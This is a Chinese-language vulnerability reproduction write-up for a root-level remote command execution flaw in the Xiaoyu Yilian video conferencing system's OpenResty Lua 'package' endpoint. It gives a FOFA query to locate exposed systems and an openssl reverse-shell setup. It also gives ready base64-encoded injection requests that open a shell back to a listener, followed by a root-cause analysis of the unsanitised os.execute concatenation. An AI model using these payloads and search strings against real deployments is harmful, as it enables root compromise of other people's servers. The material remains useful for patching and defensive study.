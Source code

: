 # 小鱼易连视频系统-Nginx LUA脚本远程命令执行

## 漏洞描述

小鱼易连视频会议系统LUA脚本权限分配不当,导致任意用户可利用root权限执行命令

## 漏洞影响

> 小鱼易连混合云

## FOFA

> title="云视讯管理平台"

## 漏洞复现

登录页面如下：

![1](resource/小鱼易连命令执行/1.png)

找到页面了之后寻找该该系统的OpenReaty页面，一般都在其他端口上。

![3](resource/小鱼易连命令执行/3.png)

然后本地进行openssl监听：

1、生成证书：

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

2、进行监听：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

3、构造反弹shell命令

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/s; rm /tmp/s
```

```
命令解释：1.mkfifo是创建一个命名管道，创建好了以后/tmp/s内容是空的2.然后不断执行那个bash反弹的命令，连接的地址从步骤1的文件里取3.找那个443连接往步骤1里的文件写入内容，估计是ip和端口4.最后shell弹好了就删除步骤1的文件
```

4、构造“package?path=”路径下命令执行语句，将上面反弹shell命令进行base64加密。

 

开始攻击：

1、请求目机机器上执行命令有三种方法：

```
curl：curl "http://ip/package?path=`echo bWtmaWZvIC90bXAvczsvYmluL2Jhc2ggLWkgPCAvdG1wL3MgMj4mMXxvcGVuc3NsIHNfY2xpZW50IC1xdWlldCAtY29ubmVjdCAxMC42Mi45Ni4yMzY6ODg4ID4gL3RtcC9zO3JtIC1mIC90bXAvcw== | base64 -d | sh`"
```

2、直接web上面请求：

```
http://ip/package?path=echo bWtmaWZvIC90bXAvczsvYmluL2Jhc2ggLWkgPCAvdG1wL3MgMj4mMXxvcGVuc3NsIHNfY2xpZW50IC1xdWlldCAtY29ubmVjdCAxMC42Mi45Ni4yMzY6ODg4ID4gL3RtcC9zO3JtIC1mIC90bXAvcw== | base64 -d | sh
```

3、burp抓包拦截请求，同web一样。



bp抓上面的请求会返回302，然后跳转404,不要慌，这时候去看你的监听服务器

监听服务器返回shell，直接root权限

![2](resource/小鱼易连命令执行/2.png)

接下来详细分析：

找机器来验证，环境为docker，上机查看：

```
netstat -anvp | grep :80
```

返回结果如下：

```
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      16554/nginx: mas
```

运行在 80 端口的程序为 nginx，在宿主机中寻找 nginx 程序

```
 find / -name nginx
```

发现宿主机中没有运行 nginx

于是尝试进入 k8s 中的容器寻找响应服务

```
 docker ps | grep openresty
```

结果如下：

```
b61e91356e49    "/usr/local/openresty" 
```

最终在 k8s 中的 openresty 容器中发现了 nginx 程序/usr/local/openresty/nginx，查询 nginx 配置文件，发现配置文件当中引用了一行 lua 脚本：

```
location = /package {
                proxy_set_header Host $host:$server_port;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Nginx-IP $server_addr;
                limit_req zone=normalfrequ burst=20 nodelay;
                content_by_lua_file lua/package.lua;
          }
```

查询该文件并查看文件内容 cat /usr/local/openresty/nginx/lua/package.lua

```linux
local package_absolute_path = '/var/log/logs.tar.gz'
local path = ngx.req.get_uri_args().path
if nil == path then
    path = '/logs'
end

os.execute('rm -rf ' .. package_absolute_path)
os.execute('tar -zcvPf ' .. package_absolute_path .. ' ' .. path)
ngx.redirect('/log/logs.tar.gz?' .. os.time())
print('rm -rf ' .. package_absolute_path)
os.execute('rm -rf ' .. package_absolute_path)
return
```

仔细研究发现在配置文件中直接对path参数传入的字符串与rm -rf等命令进行拼接，没有进行文件白名单等过滤，攻击者可以通过构造特殊字符串对命令进行闭合，从而造成Linux命令注入。

谨记网络安全法，切勿用于非法用途